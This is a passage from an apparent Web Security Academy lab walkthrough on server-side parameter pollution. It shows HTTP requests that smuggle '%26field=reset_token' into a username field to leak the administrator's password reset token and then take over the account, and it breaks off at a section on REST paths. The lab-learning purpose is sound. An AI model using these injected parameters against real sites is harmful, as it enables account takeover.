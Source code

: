 ```
Cookie: session=Klz9MkBvSewQmAqXzsYNASMlnwBbdKih
Content-Length: 74
Content-Type: x-www-form-urlencoded
Connection: keep-alive

csrf=jbqrLu7gaAD8KZ6vqSh6UkSe8KhCBnPn&username=administrator%26field=email
```
```json
{"result":"*****@normal-user.net","type":"email"}
```
Noticed that in the **forgotPassword.js**, there maybe a valid param, which is **reset_token**
```js
forgotPwdReady(() => {
    const queryString = window.location.search;
    const urlParams = new URLSearchParams(queryString);
    const resetToken = urlParams.get('reset-token');
    if (resetToken)
    {
        window.location.href = `/forgot-password?reset_token=${resetToken}`;
    }
    else
    {
        const forgotPasswordBtn = document.getElementById("forgot-password-btn");
        forgotPasswordBtn.addEventListener("click", displayMsg);
    }
});
```
Attempt to send the request:
```
POST /forgot-password HTTP/2
Host: 0a960003036333d38490ef4500870095.web-security-academy.net
Cookie: session=Klz9MkBvSewQmAqXzsYNASMlnwBbdKih
Content-Length: 80
Content-Type: x-www-form-urlencoded

csrf=...&username=administrator%26field=reset_token
```
```json
{"result":"n0i2zmu8gah9th9l59hote2mdwk8idm7","type":"reset_token"}
```
To login as admin and solve the lab:
```
POST /forgot-password?reset_token=n0i2zmu8gah9th9l59hote2mdwk8idm7 HTTP/2
```
## Testing for server-side parameter pollution in REST paths

A RESTful API may place parameter names and values in the URL path, rather than the query string. For example, consider the following path:
```
/api/users/123
```
The URL path might be broken down as follows:
